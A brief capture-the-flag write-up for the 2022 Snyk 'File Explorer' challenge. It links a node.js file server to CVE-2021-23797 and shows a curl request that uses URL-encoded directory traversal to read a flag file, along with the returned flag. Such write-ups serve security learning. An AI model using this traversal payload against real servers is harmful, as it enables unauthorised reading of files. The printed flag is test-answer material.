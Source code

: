 # 2022 Snyk - File Explorer

The web app showed public listing on http://file-explorer.c.ctf-snyk.io/public/.

Since the challenge description hinted at node.js we found about CVE-2021-23797, more info on Snyk VulnDB https://security.snyk.io/vuln/SNYK-JS-HTTPSERVERNODE-1727656.

Just replicating this gave us the ability to list and read files on the filesystem:
```
$ curl "http://file-explorer.c.ctf-snyk.io/public/..%2f..%2f..%2f..%2f../proc/self/cwd/flag"
SNYK{6854ecb17f23afdf2610f741dd07bd6099c616e4ac2a403eb14fa8689e1fb0af}
```

